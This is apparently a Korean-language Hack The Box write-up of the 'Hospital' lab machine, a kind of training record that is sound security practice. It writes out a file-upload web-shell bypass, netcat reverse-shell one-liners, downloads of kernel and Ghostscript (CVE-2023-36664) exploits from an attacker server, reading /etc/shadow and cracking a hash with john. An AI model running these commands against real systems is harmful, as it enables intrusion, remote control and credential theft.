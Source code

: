 ### 사용된 취약점: 파일 업로드 취약점, 커널 취약, Ghostscript command injection
### 초기 침투
![1](https://github.com/murphy701/security/assets/50907298/a5b8506f-5d2a-42ba-8c6a-da5b65643419)
- 스캔 결과
  - 443:webmail(roundcube)
  - 8080:login, upload
  - RPC
<br></br>
- 파일 업로드 부분이 있어서 웹쉘 업로드를 시도하였지만 거부당함
  - 이미지 파일로 만들고 올리는 것으로 시도함
  - touch exploit.jpg; echo test>exploit.jpg로 파일 생성
  - https://github.com/flozz/p0wny-shell?source=post_page-----887fd3d6fee9
    - 해당 웹쉘을 사용(코드만)
  - jpg에 소스코드를 넣고 exploit.jpg파일을 업로드 할 때 burpsuite에서 exploit.jpg를 phar로 변경하여 업로드
  - hospital.htb:8080/uploads.exploit.phar로 연결
 <br></br>
  - 연결한 상태에서 rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> 4444 >/tmp/f 로 reverse shell을 연결
  - kali에서는 nc -lnvp 4444로 대기
  - 연결 후 python3 -c 'import pty; pty.spawn("/bin/bash")'실행
    <br></br>

- 연결 이후 uname -r로 커널 버전 확인
- 취약한 버전의 커널인 것으로 확인되어 권한 상승을 시도함
  - CVE-2023-32629
  - 6.2.0, 5.19.0, 5.4.0 우분투에서 취약함
  - 마운트된 파일에 권한 있는 확장 속성 설정을 가능하게 하는 취약점
  - 저번 htb에서 비슷하고 본것 같은 권한상승 방법
- https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9
- 해당 웹쉘을 리버스 쉘로 연결된 상태에서 wget <ip>:8001/exploit.sh로 다운로드 시킨다.
- kali에서는 /var/www/html에 exploit.sh를 위치 시키고 python3 -m http.server 8001을 실행한다.
  - 실행하여 권한을 상승한다.
<br></br>

- cat /etc/shadow로 drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash를 확인할 수 있다.
  - pw hash는 sha-512인 것을 알 수 있다.
- john --wordlist=/usr/share/wordlists/rockyou.txt drwilliams.txt로 패스워드를 크랙할 수 있다.
  - 해시 값 크랙 시 파일에 넣을 값으로 shadow파일 전체를 넣는다
  - pw 해시값 만이 아닌 유효 시간 부분을 전부 넣는다
  <br></br>   
- https://10.10.11.241:443으로 접속
  - drwilliams와 크랙으로 얻은 pw로 접속
- mailbox 에서 찾은 내용으로 .eps, ghostscript가 있음
   - ghostscript가 파이프 문자의 권한 유효성 검사 실패로 임의 코드 실행하는 취약점
   - 이를 이용하여 .eps파일에 스크립트 삽입
  <br></br>
- https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----887fd3d6fee9
- nc.exe, nc64.exe와 해당 웹 쉘을 다운로드한다.
  - python3 -m http.server 8001
    - 주의 사항으로 파이썬 웹 서버 명령 실행 시 경로를 /var/www/html에서 실행해야 함
  - python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.24:8001/nc64.exe -o nc.exe" --filename file.eps
    - 해당 명령으로 file.eps에 페이로드를 삽입
- 이후 메일에 file.eps파일을 첨부하여 보내면 해당 서버에 nc64.exe를 다운로드 시킴
<br></br>
- nc64.exe를 다운로드 시킨 상태에서 해당 명령으로 리버스 쉘을 얻는 파일을 다시 만든다
- python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe <ip> 1111 -e cmd.exe" --filename file.eps
  - nc -lnvp 1111로 연결을 기다리고 메시지에 새로운 file.eps를 보내면 리버스 쉘을 획득할 수 있다.
- 이후에 Desktop에서 type user.txt를 이용하여 플래그 값을 출력한다
  <br></br>
### 권한 상승
- documents에서 ghostscript.bat에서 pw를 찾을 수 있다.
  - type ghostscript.bat
- 해당 pw를 이용하여 rpc연결을 시도한다.
  - drwilliams와 찾은 pw를 이용
  - rpcclient -U "drbrown" hospital.htb
### querydispinfo 실행
![querydispinfo](https://github.com/murphy701/security/assets/50907298/5efc379f-077f-466c-abc5-3d7abecc44ab)
- desc 부분에 admin과 guest가 built-in account for ~ the computer/domain이 설명 되어 있음
  - 어드민 정보와 게스트 정보가 같은 도메인에 공유 되어 있음
    - 윈도우에서 흔한 것으로 같은 도메인에서 관리됨
    - 같은 pc에 존재하는 것으로 추정
<br></br>
- 기존에 리버스 쉘로 연결 되어 있던 클라이언트 pc에서 C:\xampp\htdocs에 powny 웹쉘을 업로드
  - curl <ip>:8001/exploit.php -o shell.php
- https://hospital.htb/shell.php로 접속 시 쉘을 얻을 수 있음
  - whoami 실행 시 nt authority\system 결과가 출력되며 권한 상승을 시킨 것을 알 수 있음
- C:\Users\Administrator 에서 root.txt를 읽을 수 있게 됨
<br></br>
### 알게 된 점
- 파이썬으로 웹 서버 실행하여 파일을 다운로드 하게 할 때 /var/www/html에서 python3 -m http.server를 실행해야 정상적으로 작동한다.
